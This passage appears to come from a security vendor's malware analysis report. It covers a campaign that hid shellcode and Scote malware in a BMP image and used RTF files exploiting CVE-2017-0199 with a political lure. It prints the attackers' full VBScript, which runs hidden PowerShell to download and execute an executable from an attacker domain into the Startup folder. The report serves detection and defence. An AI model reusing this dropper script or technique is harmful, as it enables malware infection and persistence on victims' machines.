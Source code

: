 Figure 3 Malicious BMP image retrieved by downloader
It should be noted that this is the same image used in the DKMC presentation. It would appear that the attackers simply used the default settings of this particular program.
This BMP file is loaded as shellcode. The first six bytes are read as the following instructions:





seg000:00000000                 inc     edx
seg000:00000001                 dec     ebp
seg000:00000002                 jmp     loc_34D8B




123

seg000:00000000                 inc     edxseg000:00000001                 dec     ebpseg000:00000002                 jmp     loc_34D8B





Code execution is then redirected to embedded shellcode.
The underlying shellcode is decrypted at runtime using a 4-byte XOR key of 0x3C0922F0. The shellcode eventually loads an embedded UPX-packed executable and redirects execution to this file. This file is an instance of the Scote malware family. The size of the payload and the fact that it is embedded within the BMP file explains the large amount of distortion witnessed in the image above. In other words, the distortion witnessed is actually the shellcode and the embedded Scote malware. As this data is converted within a BMP image, we’re left with what essentially looks like random pixels.

Technique #3 – RTFs Exploiting CVE-2017-0199.
This technique begins with malicious RTF files that make use of CVE-2017-0199 a Microsoft Office/WordPad remote code execution (RCE) vulnerability patched by Microsoft in September 2017. When opened, the following lure is displayed to the victim (translation on the right provided by Google Translate):

Figure 4 Lure used by malicious RTFs
This lure is related to an event reported in late August where President Mahmoud Abbas announced plans to convert a planned presidential palace into a national library. This is consistent with the timeline of the attacks we witnessed, as the event took place roughly a week before we observed these malware samples.
These RTFs will also download a file from the following location:

storgemydata[.]website/update-online/office-update.rtf

Note that this is the same domain witnessed in the redirect used in technique #1. While the downloaded file has an RTF extension, it is in fact a VBScript with the following contents:





<script language="VBScript">
window.moveTo -4000, -4000
  Set vFwhEtGt = CreateObject("Wscript.Shell")
  Set lfTi = CreateObject("Scripting.FileSystemObject")
  If 1=1 Then
    vFwhEtGt.Run ("PowerShell.exe -WindowStyle Hidden $d=$env:userprofile+'\\start Menu\\Programs\\Startup\\\12330718701ac441736a55e3ee3cx996.exe';(New-Object System.Net.WebClient).DownloadFile('http://storgemydata[.]website/x.exe',$d);Start-Process $d;"),0
		 End If
  window.close()
</script>
